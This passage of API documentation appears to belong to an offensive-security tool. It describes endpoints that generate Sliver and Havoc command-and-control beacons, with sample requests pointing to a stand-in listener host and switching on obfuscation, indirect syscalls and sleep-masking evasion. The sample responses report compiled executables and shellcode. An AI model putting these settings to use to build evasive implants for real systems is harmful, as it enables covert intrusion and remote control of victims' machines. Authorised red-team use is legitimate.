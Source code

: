 Generate Sliver C2 beacon.

**Request:**
```json
{
  "listener_host": "c2.example.com",
  "listener_port": 443,
  "protocol": "https",
  "architecture": "x64",
  "techniques": ["NOCTIS-T124"],
  "obfuscate": true
}
```

**Response:**
```json
{
  "success": true,
  "beacon_path": "compiled/sliver_beacon.exe",
  "shellcode_path": "compiled/sliver_beacon.bin",
  "beacon_size": 156288,
  "opsec_score": 8.9,
  "techniques_applied": ["NOCTIS-T124", "NOCTIS-T118"],
  "compilation_time": 3.2
}
```

#### POST /api/c2/havoc/generate

Generate Havoc C2 demon.

**Request:**
```json
{
  "listener_host": "c2.example.com",
  "listener_port": 443,
  "protocol": "https",
  "architecture": "x64",
  "sleep_technique": "Ekko",
  "techniques": ["NOCTIS-T124"],
  "obfuscate": true,
  "indirect_syscalls": true,
  "stack_duplication": true
}
```

**Response:**
```json
{
  "success": true,
  "beacon_path": "compiled/havoc_demon.exe",
  "shellcode_path": "compiled/havoc_demon.bin",
  "beacon_size": 172544,
  "opsec_score": 9.2,
  "techniques_applied": ["NOCTIS-T124", "NOCTIS-T118"],
  "compilation_time": 3.8,
  "sleep_technique": "Ekko",
  "evasion_features": {
    "indirect_syscalls": true,
    "stack_duplication": true
  }
}
```
